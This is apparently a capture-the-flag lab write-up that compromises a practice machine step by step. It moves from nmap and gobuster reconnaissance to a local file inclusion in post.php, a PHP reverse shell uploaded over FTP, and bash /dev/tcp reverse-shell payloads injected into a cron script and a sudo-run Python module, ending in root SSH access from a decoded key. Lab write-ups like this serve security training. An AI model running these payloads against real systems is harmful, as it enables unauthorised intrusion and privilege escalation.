## Reconnaisance

### Nmap
Nmap scan to discovery open ports.
`nmap -p- --open -sS --min-rate 5000 -n -Pn -vvv <IP>`

Port scan services and versions

`nmap -p21,22,80 -sCV <IP> -oN targeted`



- Open : 21 = ftp 3.0.5
- Open : 22 = ssh
- Open : 80 = apache 2.4.41
### Enumeration

`whatweb http://<IP>`

Metagenerator : Jekyll 4.1.1
Note: I looked for any vulnerability but, there's not the way to exploit this machine.

## Gobuster

`gobuster dir -u http://<IP> -w /usr/share/wordlists/directory-list-2.3-medium.txt`

#### Founded paths
- /images
- /post.php
- /css
- /robots.txt

## post.php
On the view-source of the index.php, we can see this


### /robots.txt

There's the first flag

### /secret_file_do_not_read.txt

We don't have permission to see this file

### /post.php

we saw this before on the view-source from the index.php

# LFI (Local File Inclusion)

I tried referer the /etc/passwd directory because the post.php referer somes files, and i tried to make a ref to the passwd, and it works.

now we can see this file : secret_file_do_not_read.txt


This give us the credentials of the ftp service.

## FTP

Second flag found.
and there is a directory named files, that is empty.


# Gaining access

Maybe we can upload files there, and open from the web with the post.php file.
We are going to download a php reverse shell, listen with netcat, upload the file from ftp and execute it from the victim machine with the post.php.

Link of the reverseshell of pentestmonkey.
https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php
just change the ip and the port.

Remember to put the script in the same path where you are login in ftp to can upload.


now from ftp go to the path files and put the reverseshell.


Listen with netcat on the port that you put.

and we are going to execute the file from the web page, but you need to put the path of ftp, and the path where is the file.
`http://<IP>/post.php?post=/home/ftpuser/ftp/files/php-reverse-shell.php`


We are in.


### Note: you will need to stabilize the shell. execute the next commands:
`python3 -c "import pty; pty.spawn('/bin/bash')"`
`export TERM=xterm`
### stty
- press `Ctrl+Z` to put it in second plane
- `stty raw -echo; fg` on your console
- `enter`

now you can do `Ctrl+C` and keep in.

## Scalling privilages

`sudo -l` show us that we can be the user toby executing this command:
`sudo -u toby /bin/bash`



flag3: 
`find / -name flag_3.txt 2>/dev/null`

flag4 and more things:



`cat /etc/crontab`

in crontab we can see that the user mat is executing the file cow.sh every 1 minute. That means that if we put any reverse shell there, we can be the user mat.



### reverse shell
with printf we make a reverseshell and put it into the file cow.sh

`printf '#!/bin/bash\nbash -c "bash -i >& /dev/tcp/<IP>/443 0>&1"\n' > /home/toby/jobs/cow.sh`


wati and now you are the user mat.
Note: remember to stabilize the shell

flag_5:

we have a path named scripts with perms, and a note.


`sudo -l` we can see the sudo perms and we can modify the will_script.py


use printf to modify the script.
`printf "def get_command(num):\n    import os\n    os.system(\"bash -c 'bash -i >& /dev/tcp/<IP>/5555 0>&1'\")\n    return \"id\"\n" > /home/mat/scripts/cmd.py`
and listen with netcat.
`nc -nvlp 5555`

execute the script as will:: 
`sudo -u will /usr/bin/python3 /home/mat/scripts/will_script.py 1`


flag_6:


## /opt

I was searching for files with perms but i found a key on base64.



i decoded it and it is an id_rsa


decode it and make a file named id_rsa
`echo '<key>' | base64 -d > id_rsa`

put the perms to the script to we can use.

`chmod 600 id_rsa`

and log as root to ssh

`ssh -i id_rsa root@<IP>`

and we are root.


Thanks for watch.
